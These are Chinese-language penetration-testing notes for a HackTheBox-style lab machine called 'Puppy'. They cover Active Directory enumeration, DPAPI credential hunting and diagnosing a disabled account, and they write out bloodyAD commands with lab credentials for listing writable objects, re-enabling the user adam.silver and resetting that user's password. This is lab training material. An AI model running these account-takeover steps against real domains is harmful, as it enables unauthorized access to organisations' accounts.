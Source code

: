 ```
```



## Puppy

SEX：

1.每获得到一个域用户凭据，应该使用bloodhound-python重新收集域信息，防止有些信息因为权限问题没有收集到。

2.使用bloodhound-python收集域信息后，还要继续使用LDAP、SMB等协议枚举域内对象，相互佐证得到的信息是否真实！

3.注意用户主目录下的隐藏文件，这通常是破局的关键，最后使用命令dir /a或者Get-ChildItem -Force。在本台靶机中，发现用户steph.cooper登录目录下有隐藏文件dpapi.blob，可以朝着dpapi提权方向思考，恰好与另一个管理用户steph.cooper_adm可能有关系，也许通过dpapi技术可以解密出steph.cooper_adm的登录凭据。

4.在本台靶机渗透过程中发现用户adam.silver有时候会自动锁住。一开始以为是设置了账户阈值，但是使用Enum4Linux-Ng查看域密码策略发现并没有设置阈值，不知道为啥用户处于lock状态，只能重启靶机；这个时候，正确排查方法应该是使用类似bloodyAD的工具查看用户adam.silver的对象属性，尤其关注userAccountControl字段，如果出现ACCOUNTDISABLE值，说明账户被禁用，也就是处于lock状态。账户被禁用的原因就是域的密码默认策略90天到期了，根据whenCreated字段的值2025-02-19和pwdLastSet字段的值2025-05-23推断密码过期！pwdLastSet字段是密码最后修改时间，决定密码是否到期，当然需结合域策略。

bloodyAD查看用户对象属性的命令。

```
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' get object "adam.silver"
```

bloodyAD筛选可以写入的用户，然后修改筛选出特定对象。

```
bloodyAD --host 10.10.11.70 -d 'puppy.htb' -u 'ant.edwards' -p 'Antman2025!' get writable --detail | grep -A 20 "distinguishedName: CN=.*DC=PUPPY,DC=HTB" | grep -B 20 "WRITE"

在 grep 命令中，-A 和 -B 参数用于控制匹配行的上下文显示范围
-A 20 表示 显示匹配行及其后面的 20 行
-B 20 表示 显示匹配行及其前面的 20 行
```

```
bloodyAD --host 10.10.11.70 -d 'puppy.htb' -u 'ant.edwards' -p 'Antman2025!' get writable --detail | grep -E "distinguishedName: CN=.*DC=PUPPY,DC=HTB" -A 10
```

bloodyAD移除adam用户的ACCOUNTDISABLE属性值，也就是改为512（正常账户）。

```
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE
```

bloodyAD修改adam用户密码，只有改完密码才能winrm登录成功。

```
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' --dc 10.10.11.70 set password "adam.silver" 'Passw@rd'
```



## Eureka
